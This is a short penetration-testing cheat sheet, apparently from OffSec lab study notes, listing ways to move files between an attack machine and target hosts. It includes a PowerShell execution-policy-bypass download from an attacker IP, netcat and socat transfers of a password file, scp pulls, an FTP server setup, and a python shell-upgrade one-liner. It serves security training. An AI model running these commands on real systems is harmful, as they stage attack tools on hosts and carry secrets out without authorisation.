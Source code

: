 ### Using third-party file sharing links
https://www.file.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -nop -Exec Bypass -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

### SCP Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Pure-ftpd (Linux - Linux)
#### install
sudo apt update && sudo apt install pure-ftpd  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd offsec -u kali -d /ftphome  
sudo pure-pw mkdb  
cd /etc/pure-ftpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir -p /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd  
#### connect
ftp 10.11.0.4  
bye  
#### Upgrading a Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'  
#### mode
bin(binary mode)
ascii(ascii mode)
#### transfer files
```
Authentication first
1. attack machine put files under ftphome dir
2. get filename/put filename
```
